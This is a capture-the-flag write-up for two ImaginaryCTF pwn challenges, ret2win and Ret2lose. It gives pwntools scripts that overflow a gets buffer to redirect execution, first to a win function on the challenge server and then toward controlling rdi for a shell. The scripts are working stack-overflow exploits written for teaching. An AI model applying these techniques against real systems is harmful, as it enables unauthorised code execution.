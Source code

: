 Thus we can exploit the buffer overflow in the `gets` function to do the `ret2win`. If you don't have any idea on how to do simple ret2win then I would recommend you to go through my playlist on <a href="https://keksite.in/posts/Introduction-to-pwning-1/">Introduction to pwnning</a>

The exploit is as follows:

```py
from pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
# p = elf.process()
p = remote(b"ret2win.chal.imaginaryctf.org", 1337)

# gdb.attach(p,'''
#     init-gef
#     c           
# ''')

p.sendline(b"a"*72 + p64(0x000000000040101a) + p64(elf.sym.win))

p.interactive()
```

# Ret2lose

```
Description

You overflowed the buffer and got the flag... but can you get my other flag? (Remote and binary are the same as in the challenge ret2win, but you have to get a shell this time)
```

This challenge has the exact same binary as the above challenge but in this time we have to get remote shell.

On the first glance this looks like a simple `ret2libc` challenge in which we can leak the `libc` address using the GOT entries but its not so simple. If we try to find the ROPgadgets in the binary we find that the `pop rdi ; ret` gadget in missing. This we cannot get a `libc` leak directly.

## Exploitation Vector

While messing around which the challenge binary I found that if we call the `gets` function, it stores the input somewhere in the `libc`. Interestingly this input is also present in the `rdi` register and thus we can control the `rdi` register.

```py
from pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
p = elf.process()
# p = remote(b"ret2win.chal.imaginaryctf.org", 1337)

gdb.attach(p,'''
    init-gef
    c  
''')

payload = b"a"*72 + p64(elf.plt.gets)
p.sendline(payload)

p.sendline(b"b"*8)

p.interactive()
```
